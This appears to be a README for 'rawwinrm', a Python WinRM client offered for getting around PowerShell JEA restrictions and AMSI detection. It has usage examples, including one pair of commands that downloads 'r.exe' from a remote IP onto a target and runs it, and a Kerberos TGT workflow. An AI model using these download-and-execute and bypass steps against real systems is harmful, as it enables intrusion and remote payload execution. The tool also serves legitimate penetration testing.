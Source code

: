 #########
Raw WinRM
#########

| Using WinRM without using Invoke-Command cmdlet
| This project use the pypsrp library : https://github.com/jborean93/pypsrp
|
| Use cases :
- Dealing with powershell JEA limitations (Just Enough Administration)
- AMSI issues with NetExec // Evil-WinRM

|
| You can have a look at this project as well : https://github.com/sashathomas/evil-jea

|

Install
*******

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/rwinrm.git@main
    # pipx uninstall rwinrm
    # pipx upgrade rwinrm

    # Dev
    pipx install /opt/git/rwinrm --editable

|

Usage
*****

.. code-block:: bash

    rawwinrm --host IP --user USER --pass PASSWORD -c CMDLET -a ARG -p PARAMETER VALUE

|

Examples
********

.. code-block:: bash

    rawwinrm --host 172.16.90.130 --user user --pass Test_1 -c 'Get-Command' 

.. code-block:: bash

    rawwinrm --host 172.16.90.130 --user user --pass Test_1 -c 'whoami.exe' 
    [*] => cmdlet: whoami.exe
    [*] Success
    [*] Printing output
    w11\user

    rawwinrm --host 172.16.90.130 --user user --pass Test_1 -a 'whoami.exe' 
    [*] => cmdlet: cmd.exe
    [*] -- arg: /c
    [*] -- arg: whoami.exe
    [*] Success
    [*] Printing output
    w11\user

.. code-block:: bash

    rawwinrm --host 172.16.90.130 --user user --pass Test_1 -c Get-Process -c Select-Object -a ProcessName -c Out-String -p width 999
    [*] => cmdlet: Get-Process
    [*] => cmdlet: Select-Object
    [*] -- arg: ProcessName
    [*] => cmdlet: Out-String
    [*] -- param: width
    [*] -- value: 999
    [*] Success
    [*] Printing output

    ProcessName            
    -----------            
    AggregatorHost         
    ApplicationFrameHost   
    conhost                
    conhost                
    CrossDeviceService     
    csrss                  
    csrss             
    [...]

.. code-block:: bash

    rawwinrm --host 172.16.90.130 --user user --pass Test_1 -c 'curl.exe' -a 'http://192.168.1.21/r.exe' -a '--output' -a 'c:\r\r.exe'
    rawwinrm --host 172.16.90.130 --user user --pass Test_1 -c '/r/r.exe' -a '--child'
    [...]

|


Kerberos
********

.. code-block:: bash

    # We define kerberos configuration
    cat <<'EOF'>~/krb5.conf
    [libdefaults]
    default_realm = DOMAIN.COM
    dns_canonicalize_hostname = false
    rdns = false

    [realms]
    DOMAIN.COM = {
    kdc = DC.DOMAIN.COM
    admin_server = DC.DOMAIN.COM
    }

    [domain_realm]
    DOMAIN.COM = DOMAIN.COM
    .DOMAIN.COM = DOMAIN.COM
    EOF
    export KRB5_CONFIG='~/krb5.conf'

.. code-block:: bash

    # We ask a tgt
    getTGT.py 'DOMAIN.COM'/'USER':'Blabla_123!' -dc-ip 'DC.DOMAIN.COM'
    export KRB5CCNAME='USER.ccache'

.. code-block:: bash

    # We use the TGT on service (no need to set user)
    rawwinrm --auth kerberos --host DC.DOMAIN.COM -c 'whoami.exe' --service 'CIFS'

|

Todo
****

| Nested powershell
| Certificate support